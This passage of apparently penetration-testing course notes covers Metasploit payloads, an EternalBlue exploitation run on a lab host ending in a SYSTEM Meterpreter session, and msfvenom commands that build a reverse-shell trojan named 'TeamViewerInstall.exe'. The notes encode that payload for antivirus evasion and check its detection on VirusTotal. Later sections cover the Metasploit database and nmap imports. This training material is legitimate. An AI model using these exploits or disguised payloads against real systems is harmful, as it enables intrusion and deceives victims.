Once the Meterpreter payload is executed, a new session is created, which spawns up the Meterpreter interface. It is very similar to the msfconsole interface, but all available commands are aimed at the target system, which the payload has "infected". It offers you a plethora of useful commands, varying from keystroke capture, password hash collection, microphone tapping, and screenshotting to impersonating process security tokens.

Using Meterpreter, you can also load in different Plugins to assist you with your assessment.

### Searching for Payloads

```bash
msf6 > show payloads

Payloads
========

   #    Name                                                Disclosure Date  Rank    Check  Description
-    ----                                                ---------------  ----    -----  -----------
   0    aix/ppc/shell_bind_tcp                                               manual  No     AIX Command Shell, Bind TCP Inline
   1    aix/ppc/shell_find_port                                              manual  No     AIX Command Shell, Find Port Inline
   2    aix/ppc/shell_interact                                               manual  No     AIX execve Shell for inetd
   3    aix/ppc/shell_reverse_tcp                                            manual  No     AIX Command Shell, Reverse TCP Inline
   4    android/meterpreter/reverse_http                                     manual  No     Android Meterpreter, Android Reverse HTTP Stager
   5    android/meterpreter/reverse_https                                    manual  No     Android Meterpreter, Android Reverse HTTPS Stager
   6    android/meterpreter/reverse_tcp                                      manual  No     Android Meterpreter, Android Reverse TCP Stager
   7    android/meterpreter_reverse_http                                     manual  No     Android Meterpreter Shell, Reverse HTTP Inline
   8    android/meterpreter_reverse_https                                    manual  No     Android Meterpreter Shell, Reverse HTTPS Inline
   9    android/meterpreter_reverse_tcp                                      manual  No     Android Meterpreter Shell, Reverse TCP Inline
   10   android/shell/reverse_http                                           manual  No     Command Shell, Android Reverse HTTP Stager
   11   android/shell/reverse_https                                          manual  No     Command Shell, Android Reverse HTTPS Stager
   12   android/shell/reverse_tcp                                            manual  No     Command Shell, Android Reverse TCP Stager
   13   apple_ios/aarch64/meterpreter_reverse_http                           manual  No     Apple_iOS Meterpreter, Reverse HTTP Inline
   
<SNIP>
   
   557  windows/x64/vncinject/reverse_tcp                                    manual  No     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse TCP Stager
   558  windows/x64/vncinject/reverse_tcp_rc4                                manual  No     Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   559  windows/x64/vncinject/reverse_tcp_uuid                               manual  No     Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager with UUID Support (Windows x64)
   560  windows/x64/vncinject/reverse_winhttp                                manual  No     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (winhttp)
   561  windows/x64/vncinject/reverse_winhttps                               manual  No     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTPS Stager (winhttp)
```

#### Specific Payloads

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads

   6   payload/windows/x64/meterpreter/bind_ipv6_tcp                        normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   7   payload/windows/x64/meterpreter/bind_ipv6_tcp_uuid                   normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
   8   payload/windows/x64/meterpreter/bind_named_pipe                      normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
   9   payload/windows/x64/meterpreter/bind_tcp                             normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
   10  payload/windows/x64/meterpreter/bind_tcp_rc4                         normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
   11  payload/windows/x64/meterpreter/bind_tcp_uuid                        normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager with UUID Support (Windows x64)
   12  payload/windows/x64/meterpreter/reverse_http                         normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   13  payload/windows/x64/meterpreter/reverse_https                        normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   14  payload/windows/x64/meterpreter/reverse_named_pipe                   normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   18  payload/windows/x64/meterpreter/reverse_winhttp                      normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
   19  payload/windows/x64/meterpreter/reverse_winhttps                     normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)


msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter show payloads

[*] 14
```

### Selecting Payloads

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```

Now, use ```set payload <no.>```, and take a look at the options:

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

After selecting a payload, you will have more options available to you.

### Using Payloads

For the exploit part (_target_) you will have to set:

- RHOSTS
- RPORT

For the payload part (_your attacking machine_) you will have to set:

- LHOST
- LPORT

... leads to:

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > whoami

[-] Unknown command: whoami.


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

## Encoders

... assist with making payloads compatible with different processor architectures while at the same time helping with av evasion.

These architectures include:

- x64
- x86
- sparc
- ppc
- mips

### Selecting an Encoder

Suppose you want to select an Encoder for an existing payload. Then, you can use the ```show encoders``` command within the msfconsole to see which encoders are available for your current exploit module and payload combination.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp


msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders

Compatible Encoders
===================

   #  Name              Disclosure Date  Rank    Check  Description
   -  ----              ---------------  ----    -----  -----------
   0  generic/eicar                      manual  No     The EICAR Encoder
   1  generic/none                       manual  No     The "none" Encoder
   2  x64/xor                            manual  No     XOR Encoder
   3  x64/xor_dynamic                    manual  No     Dynamic key XOR Encoder
   4  x64/zutto_dekiru                   manual  No     Zutto Dekiru
```

Take the above example just as that. If you were to encode an executable payload only once with [SGN](https://hatching.io/blog/metasploit-payloads2/), it would most likely be detected by most avs. Picking up msfvenom, the subscript of the framework that deals with payloads and encoding schemes, you have the following input.

```bash
d41y@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: TeamViewerInstall.exe
```

This will generate a payload with the ```exe``` format, called TeamVieverInstall.exe, which is meant to work on x86 architecture processors for the Windows platform, with a hidden Meterpreter reverse_tcp shell payload, encoded once with the Shikata Ga Nai scheme.

One better option would be to try running it through multiple iterations of the same encoding scheme:

```bash
d41y@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai succeeded with size 449 (iteration=3)
x86/shikata_ga_nai succeeded with size 476 (iteration=4)
x86/shikata_ga_nai succeeded with size 503 (iteration=5)
x86/shikata_ga_nai succeeded with size 530 (iteration=6)
x86/shikata_ga_nai succeeded with size 557 (iteration=7)
x86/shikata_ga_nai succeeded with size 584 (iteration=8)
x86/shikata_ga_nai succeeded with size 611 (iteration=9)
x86/shikata_ga_nai chosen with final size 611
Payload size: 611 bytes
Final size of exe file: 73802 bytes
Error: Permission denied @ rb_sysopen - /root/Desktop/TeamViewerInstall.exe
```

There is a high number of products that still detect the payload. Alternatively, Metasploit offers a tool called msf-virustotal that you can use with an API key to analyze your payloads.

```bash
d41y@htb[/htb]$ msf-virustotal -k <API key> -f TeamViewerInstall.exe

[*] Using API key: <API key>
[*] Please wait while I upload TeamViewerInstall.exe...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash    : 4f54cc46e2f55be168cc6114b74a3130
[*] Sample SHA1 hash   : 53fcb4ed92cf40247782de41877b178ef2a9c5a9
[*] Sample SHA256 hash : 66894cbecf2d9a31220ef811a2ba65c06fdfecddbc729d006fdab10e43368da8
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1651750343
[*] Requesting the report...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Received code -2. Waiting for another 60 seconds...
[*] Analysis Report: TeamViewerInstall.exe (51 / 68): 66894cbecf2d9a31220ef811a2ba65c06fdfecddbc729d006fdab10e43368da8
==================================================================================================================

 Antivirus             Detected  Version                                                         Result                                                     Update
 ---------             --------  -------                                                         ------                                                     ------
 ALYac                 true      1.1.3.1                                                         Trojan.CryptZ.Gen                                          20220505
 APEX                  true      6.288                                                           Malicious                                                  20220504
 AVG                   true      21.1.5827.0                                                     Win32:SwPatch [Wrm]                                        20220505
 Acronis               true      1.2.0.108                                                       suspicious                                                 20220426
 Ad-Aware              true      3.0.21.193                                                      Trojan.CryptZ.Gen                                          20220505
 AhnLab-V3             true      3.21.3.10230                                                    Trojan/Win32.Shell.R1283                                   20220505
 Alibaba               false     0.3.0.5                                                                                                                    20190527
 Antiy-AVL             false     3.0                                                                                                                        20220505
 Arcabit               true      1.0.0.889                                                       Trojan.CryptZ.Gen                                          20220505
 Avast                 true      21.1.5827.0                                                     Win32:SwPatch [Wrm]                                        20220505
 Avira                 true      8.3.3.14                                                        TR/Patched.Gen2                                            20220505
 Baidu                 false     1.0.0.2                                                                                                                    20190318
 BitDefender           true      7.2                                                             Trojan.CryptZ.Gen                                          20220505
 BitDefenderTheta      true      7.2.37796.0                                                     Gen:NN.ZexaF.34638.eq1@aC@Q!ici                            20220428
 Bkav                  true      1.3.0.9899                                                      W32.FamVT.RorenNHc.Trojan                                  20220505
 CAT-QuickHeal         true      14.00                                                           Trojan.Swrort.A                                            20220505
 CMC                   false     2.10.2019.1                                                                                                                20211026
 ClamAV                true      0.105.0.0                                                       Win.Trojan.MSShellcode-6360728-0                           20220505
 Comodo                true      34592                                                           TrojWare.Win32.Rozena.A@4jwdqr                             20220505
 CrowdStrike           true      1.0                                                             win/malicious_confidence_100% (D)                          20220418
 Cylance               true      2.3.1.101                                                       Unsafe                                                     20220505
 Cynet                 true      4.0.0.27                                                        Malicious (score: 100)                                     20220505
 Cyren                 true      6.5.1.2                                                         W32/Swrort.A.gen!Eldorado                                  20220505
 DrWeb                 true      7.0.56.4040                                                     Trojan.Swrort.1                                            20220505
 ESET-NOD32            true      25218                                                           a variant of Win32/Rozena.AA                               20220505
 Elastic               true      4.0.36                                                          malicious (high confidence)                                20220503
 Emsisoft              true      2021.5.0.7597                                                   Trojan.CryptZ.Gen (B)                                      20220505
 F-Secure              false     18.10.978-beta,1651672875v,1651675347h,1651717942c,1650632236t                                                             20220505
 FireEye               true      35.24.1.0                                                       Generic.mg.4f54cc46e2f55be1                                20220505
 Fortinet              true      6.2.142.0                                                       MalwThreat!0971IV                                          20220505
 GData                 true      A:25.32960B:27.27244                                            Trojan.CryptZ.Gen                                          20220505
 Gridinsoft            true      1.0.77.174                                                      Trojan.Win32.Swrort.zv!s2                                  20220505
 Ikarus                true      6.0.24.0                                                        Trojan.Win32.Swrort                                        20220505
 Jiangmin              false     16.0.100                                                                                                                   20220504
 K7AntiVirus           true      12.10.42191                                                     Trojan ( 001172b51 )                                       20220505
 K7GW                  true      12.10.42191                                                     Trojan ( 001172b51 )                                       20220505
 Kaspersky             true      21.0.1.45                                                       HEUR:Trojan.Win32.Generic                                  20220505
 Kingsoft              false     2017.9.26.565                                                                                                              20220505
 Lionic                false     7.5                                                                                                                        20220505
 MAX                   true      2019.9.16.1                                                     malware (ai score=89)                                      20220505
 Malwarebytes          true      4.2.2.27                                                        Trojan.Rozena                                              20220505
 MaxSecure             true      1.0.0.1                                                         Trojan.Malware.300983.susgen                               20220505
 McAfee                true      6.0.6.653                                                       Swrort.i                                                   20220505
 McAfee-GW-Edition     true      v2019.1.2+3728                                                  BehavesLike.Win32.Swrort.lh                                20220505
 MicroWorld-eScan      true      14.0.409.0                                                      Trojan.CryptZ.Gen                                          20220505
 Microsoft             true      1.1.19200.5                                                     Trojan:Win32/Meterpreter.A                                 20220505
 NANO-Antivirus        true      1.0.146.25588                                                   Virus.Win32.Gen-Crypt.ccnc                                 20220505
 Paloalto              false     0.9.0.1003                                                                                                                 20220505
 Panda                 false     4.6.4.2                                                                                                                    20220504
 Rising                true      25.0.0.27                                                       Trojan.Generic@AI.100 (RDMK:cmRtazqDtX58xtB5RYP2bMLR5Bv1)  20220505
 SUPERAntiSpyware      true      5.6.0.1032                                                      Trojan.Backdoor-Shell                                      20220430
 Sangfor               true      2.14.0.0                                                        Trojan.Win32.Save.a                                        20220415
 SentinelOne           true      22.2.1.2                                                        Static AI - Malicious PE                                   20220330
 Sophos                true      1.4.1.0                                                         ML/PE-A + Mal/EncPk-ACE                                    20220505
 Symantec              true      1.17.0.0                                                        Packed.Generic.347                                         20220505
 TACHYON               false     2022-05-05.02                                                                                                              20220505
 Tencent               true      1.0.0.1                                                         Trojan.Win32.Cryptz.za                                     20220505
 TrendMicro            true      11.0.0.1006                                                     BKDR_SWRORT.SM                                             20220505
 TrendMicro-HouseCall  true      10.0.0.1040                                                     BKDR_SWRORT.SM                                             20220505
 VBA32                 false     5.0.0                                                                                                                      20220505
 ViRobot               true      2014.3.20.0                                                     Trojan.Win32.Elzob.Gen                                     20220504
 VirIT                 false     9.5.188                                                                                                                    20220504
 Webroot               false     1.0.0.403                                                                                                                  20220505
 Yandex                true      5.5.2.24                                                        Trojan.Rosena.Gen.1                                        20220428
 Zillya                false     2.0.0.4625                                                                                                                 20220505
 ZoneAlarm             true      1.0                                                             HEUR:Trojan.Win32.Generic                                  20220505
 Zoner                 false     2.2.2.0                                                                                                                    20220504
 tehtris               false     v0.1.2                                                                                                                     20220505
```

## Databases

... are used to keep track of your results.

### Setting it up

#### PostgreSQL Status

```bash
d41y@htb[/htb]$ sudo service postgresql status

● postgresql.service - PostgreSQL RDBMS
     Loaded: loaded (/lib/systemd/system/postgresql.service; disabled; vendor preset: disabled)
     Active: active (exited) since Fri 2022-05-06 14:51:30 BST; 3min 51s ago
    Process: 2147 ExecStart=/bin/true (code=exited, status=0/SUCCESS)
   Main PID: 2147 (code=exited, status=0/SUCCESS)
        CPU: 1ms

May 06 14:51:30 pwnbox-base systemd[1]: Starting PostgreSQL RDBMS...
May 06 14:51:30 pwnbox-base systemd[1]: Finished PostgreSQL RDBMS.
```

#### Start PostgreSQL

```bash
d41y@htb[/htb]$ sudo systemctl start postgresql
```

#### MSF - Initiate a Database

```bash
d41y@htb[/htb]$ sudo msfdb init

[i] Database already started
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
rake aborted!
NoMethodError: undefined method `without' for #<Bundler::Settings:0x000055dddcf8cba8>
Did you mean? with_options

<SNIP>
```

Sometimes an error can occur if Metasploit is not up to date. First, often it helps to update Metasploit (```apt update```) to solve this problem.

```bash
d41y@htb[/htb]$ sudo msfdb init

[i] Database already started
[i] The database appears to be already configured, skipping initialization
```

If the initialization is skipped and Metasploit tells you that the database is already configured, you can recheck the status of the database:

```bash
d41y@htb[/htb]$ sudo msfdb status

● postgresql.service - PostgreSQL RDBMS
     Loaded: loaded (/lib/systemd/system/postgresql.service; disabled; vendor preset: disabled)
     Active: active (exited) since Mon 2022-05-09 15:19:57 BST; 35min ago
    Process: 2476 ExecStart=/bin/true (code=exited, status=0/SUCCESS)
   Main PID: 2476 (code=exited, status=0/SUCCESS)
        CPU: 1ms

May 09 15:19:57 pwnbox-base systemd[1]: Starting PostgreSQL RDBMS...
May 09 15:19:57 pwnbox-base systemd[1]: Finished PostgreSQL RDBMS.

COMMAND   PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
postgres 2458 postgres    5u  IPv6  34336      0t0  TCP localhost:5432 (LISTEN)
postgres 2458 postgres    6u  IPv4  34337      0t0  TCP localhost:5432 (LISTEN)

UID          PID    PPID  C STIME TTY      STAT   TIME CMD
postgres    2458       1  0 15:19 ?        Ss     0:00 /usr/lib/postgresql/13/bin/postgres -D /var/lib/postgresql/13/main -c con

[+] Detected configuration file (/usr/share/metasploit-framework/config/database.yml)
```

If this error does not appear, which often happens after a fresh installation of Metasploit, then you will see the following when initializing the database:

```bash
d41y@htb[/htb]$ sudo msfdb init

[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema
```

#### MSF - Connect to the Initiated Database

```bash
d41y@htb[/htb]$ sudo msfdb run

[i] Database already started
                                                  
         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v6.1.39-dev                          ]
+ -- --=[ 2214 exploits - 1171 auxiliary - 396 post       ]
+ -- --=[ 616 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

msf6>
```

#### MSF - Reinitiate the Database

If, however, you already have the database configured and are not able to change the password to the MSF username, proceed with these commands:

```bash
d41y@htb[/htb]$ msfdb reinit
d41y@htb[/htb]$ cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
d41y@htb[/htb]$ sudo service postgresql restart
d41y@htb[/htb]$ msfconsole -q

msf6 > db_status

[*] Connected to msf. Connection type: PostgreSQL.
```

#### MSF - Database Options

```bash
msf6 > help database

Database Backend Commands
=========================

    Command           Description
    -------           -----------
    db_connect        Connect to an existing database
    db_disconnect     Disconnect from the current database instance
    db_export         Export a file containing the contents of the database
    db_import         Import a scan result file (filetype will be auto-detected)
    db_nmap           Executes nmap and records the output automatically
    db_rebuild_cache  Rebuilds the database-stored module cache
    db_status         Show the current database status
    hosts             List all hosts in the database
    loot              List all loot in the database
    notes             List all notes in the database
    services          List all services in the database
    vulns             List all vulnerabilities in the database
    workspace         Switch between database workspaces
	

msf6 > db_status

[*] Connected to msf. Connection type: postgresql.
```

### Using the Database

These databases can be exported and imported. This is especially useful when you have extensive lists of hosts, loot, notes, and stored vulns for these hosts. After confirming that the database is successfully connected, you can organize your workspace.

#### Workspaces

Like a folder in a project. You can segregate the different scan results, hosts, and extracted information by IP, subnet, network, or domain.

To view the current workspace list, use the ```workspace``` command. Adding a ```-a``` or ```-d``` switch after the command, followed by the workspace's name, will either add or delete that workspace to the database.

```bash
msf6 > workspace

* default
```

Notice that the default workspace is named "default" and is currently in use accoding to the ```*```.

```bash
msf6 > workspace -a Target_1

[*] Added workspace: Target_1
[*] Workspace: Target_1


msf6 > workspace Target_1 

[*] Workspace: Target_1


msf6 > workspace

  default
* Target_1
```

To see what else you can do with workspaces, you can use:

```bash
msf6 > workspace -h

Usage:
    workspace                  List workspaces
    workspace -v               List workspaces verbosely
    workspace [name]           Switch workspace
    workspace -a [name] ...    Add workspace(s)
    workspace -d [name] ...    Delete workspace(s)
    workspace -D               Delete all workspaces
    workspace -r     Rename workspace
    workspace -h               Show this help information
```

### Importing Scan Results

#### Stored nmap Scan

```bash
d41y@htb[/htb]$ cat Target.nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-17 20:54 UTC
Nmap scan report for 10.10.10.40
Host is up (0.017s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.81 seconds
```

#### Importing Scan Results

```bash
msf6 > db_import Target.xml

[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.10.9'
[*] Importing host 10.10.10.40
[*] Successfully imported ~/Target.xml


msf6 > hosts

Hosts
=====

address      mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------      ---  ----  -------  ---------  -----  -------  ----  --------
10.10.10.40             Unknown                    device         


msf6 > services

Services
========

host         port   proto  name          state  info
----         ----   -----  ----          -----  ----
10.10.10.40  135    tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  139    tcp    netbios-ssn   open   Microsoft Windows netbios-ssn
10.10.10.40  445    tcp    microsoft-ds  open   Microsoft Windows 7 - 10 microsoft-ds workgroup: WORKGROUP
10.10.10.40  49152  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49153  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49154  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49155  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49156  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49157  tcp    msrpc         open   Microsoft Windows RPC
```

### Using nmap inside of MSFconsole

```bash
msf6 > db_nmap -sV -sS 10.10.10.8

[*] Nmap: Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-17 21:04 UTC
[*] Nmap: Nmap scan report for 10.10.10.8
[*] Nmap: Host is up (0.016s latency).
[*] Nmap: Not shown: 999 filtered ports
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 80/TCP open  http    HttpFileServer httpd 2.3
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 11.12 seconds


msf6 > hosts

Hosts
=====

address      mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------      ---  ----  -------  ---------  -----  -------  ----  --------
10.10.10.8              Unknown                    device         
10.10.10.40             Unknown                    device         


msf6 > services

Services
========

host         port   proto  name          state  info
----         ----   -----  ----          -----  ----
10.10.10.8   80     tcp    http          open   HttpFileServer httpd 2.3
10.10.10.40  135    tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  139    tcp    netbios-ssn   open   Microsoft Windows netbios-ssn
10.10.10.40  445    tcp    microsoft-ds  open   Microsoft Windows 7 - 10 microsoft-ds workgroup: WORKGROUP
10.10.10.40  49152  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49153  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49154  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49155  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49156  tcp    msrpc         open   Microsoft Windows RPC
10.10.10.40  49157  tcp    msrpc         open   Microsoft Windows RPC
```

### Data Backup

#### MSF - DB Export

```bash
msf6 > db_export -h

Usage:
    db_export -f <format> [filename]
    Format can be one of: xml, pwdump
[-] No output file was specified


msf6 > db_export -f xml backup.xml

[*] Starting export of workspace default to backup.xml [ xml ]...
[*] Finished export of workspace default to backup.xml [ xml ]...
```

### Hosts

The ```hosts``` command displays a database table automatically populated with the host addresses, hostnames, and other information you find about these during your scans and interactions.

#### Stored Hosts

```bash
msf6 > hosts -h

Usage: hosts [ options ] [addr1 addr2 ...]

OPTIONS:
  -a,--add          Add the hosts instead of searching
  -d,--delete       Delete the hosts instead of searching
  -c <col1,col2>    Only show the given columns (see list below)
